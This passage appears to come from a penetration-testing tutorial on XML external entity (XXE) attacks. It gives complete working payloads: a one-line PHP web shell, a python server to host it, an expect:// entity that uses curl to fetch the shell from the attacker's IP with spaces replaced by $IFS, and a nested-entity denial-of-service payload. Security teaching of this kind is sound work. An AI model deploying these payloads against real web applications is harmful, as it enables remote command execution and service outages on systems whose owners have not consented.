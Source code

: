 The most efficient method to turn XXE into RCE is by fetching a web shell from our server and writing it to the web app, and then we can interact with it to execute commands. To do so, we can start by writing a basic PHP web shell and starting a python web server, as follows:
```console
zero@pio$ echo '<?php system($_REQUEST["cmd"]);?>' > shell.php 
zero@pio$ python3 -m http.server 80
```

Now use the following XML:
```xml
<?xml version="1.0"?>
<!DOCTYPE email [
  <!ENTITY company SYSTEM "expect://curl$IFS-O$IFS'<OUR IP>/shell.php'">
]>
<root>
<name></name>
<tel></tel>
<email>&company;</email>
<message></message>
</root>
```

We replaced all spaces in the above XML code with `$IFS`. 

### Other XXE Attacks 

Another common attack often carried out through XXE vulnerabilities is SSRF exploitation, which is used to enumerate locally open ports and access their pages, among other restricted web pages, through the XXE vulnerability. One common use of XXE attacks is causing a Denial of Service (DOS) to the hosting web server, with the use the following payload:
```xml
<?xml version="1.0"?>
<!DOCTYPE email [
  <!ENTITY a0 "DOS" >
  <!ENTITY a1 "&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;">
  <!ENTITY a2 "&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;">
  <!ENTITY a3 "&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;">
  <!ENTITY a4 "&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;">
  <!ENTITY a5 "&a4;&a4;&a4;&a4;&a4;&a4;&a4;&a4;&a4;&a4;">
  <!ENTITY a6 "&a5;&a5;&a5;&a5;&a5;&a5;&a5;&a5;&a5;&a5;">
  <!ENTITY a7 "&a6;&a6;&a6;&a6;&a6;&a6;&a6;&a6;&a6;&a6;">
  <!ENTITY a8 "&a7;&a7;&a7;&a7;&a7;&a7;&a7;&a7;&a7;&a7;">
  <!ENTITY a9 "&a8;&a8;&a8;&a8;&a8;&a8;&a8;&a8;&a8;&a8;">        
  <!ENTITY a10 "&a9;&a9;&a9;&a9;&a9;&a9;&a9;&a9;&a9;&a9;">        
]>
<root>
<name></name>
<tel></tel>
<email>&a10;</email>
<message></message>
</root>
```

However, this attack no longer works with modern web servers, as they protect against entity self-reference.

